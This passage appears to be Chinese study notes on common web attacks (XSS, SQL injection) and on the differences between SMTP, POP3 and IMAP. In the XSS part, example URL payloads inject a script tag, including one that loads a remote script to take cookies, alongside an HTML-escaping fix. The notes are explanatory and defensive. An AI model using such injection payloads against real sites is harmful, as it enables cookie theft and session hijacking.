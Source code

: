 

详细的协议参考计算机网络课件。



   
## 0123 常见的web攻击有哪些


XSS：cross site scripting 跨站脚本攻击；有漏洞的网站运行攻击者的脚本命令。可以利用虚假表单获取个人信息。利用 JS 获取用户的cookie值。被害者在不知情的情况下，帮助攻击者发送恶意请求（显示伪造的文章或者图片，显示伪造的网页登录情况）。

\- 例子：被攻击的A网站中，通过URL传值，获取登录用户名。那么攻击者在URL中设置自己的攻击脚本，获取cookie等信息。\`localhost:3000/?id=\<script>alert('1')\</script>\` 进一步执行远程脚本 \`localhost:3000/?id=\<script src="http\://www.baidu.com/index.js">\</script>\` 获取信息。

\- XSS 解决方法，避免把用户传递的变量，直接和 HTML 拼接，然后执行。解决：将用户的输入通过下面函数转换成合法的HTML，先创建文本节点，然后在获取内部HTML。然后把生成的HTML，使用 \`\<a href="://www.baidu.com"> + str + \</a>\` 包起来，这样就避免了XSS

```javascript
HTMLescape: function(html) {
  return document.createElement('div')
    .appendChild(document.createTextNode(html))
    .parentNode
    .innerHTML;
}

```

\- SQL注入：用户在提交数据时（用户名密码），可能把非法的用户名（例如某一段SQL语句）提交到服务器。服务器在查找数据库时，\`select \* from db where username is XXX \` 把非法的SQL执行，造成数据损失等。避免方法：永远不要相信用户的输入；对用户的输入进行校验和转换；不要使用超级管理员权限执行某些操作等。

\- CSRF

\- 点击劫持

\- OS注入

\- 请求劫持

\- DDOS

开课吧笔记有两节安全的课程，可以参考



   
## 0124 SMTP 和 POP3 和 IMAP 的区别


了解即可

相同点：这三个都是运行在邮件服务器的服务（例如QQ邮件服务器，163邮件服务器等）

SMTP 服务：处理发送邮件。如果发件人和收件人是同一个域（都是163自己的域），那么直接转；如果不是同一个域（163发给QQ），首先要进行 DNS 查询，然后找到 host 并发送。

POP3 和 IMAP ：处理接受邮件。POP3 比较旧，IMAP 较新。

POP3：本地读到邮件后，邮件从服务器上删除，邮件进行本地编辑。如果多个终端链接服务器有问题。

IMAP：本地读到邮件后，邮件不会从服务器上删除。
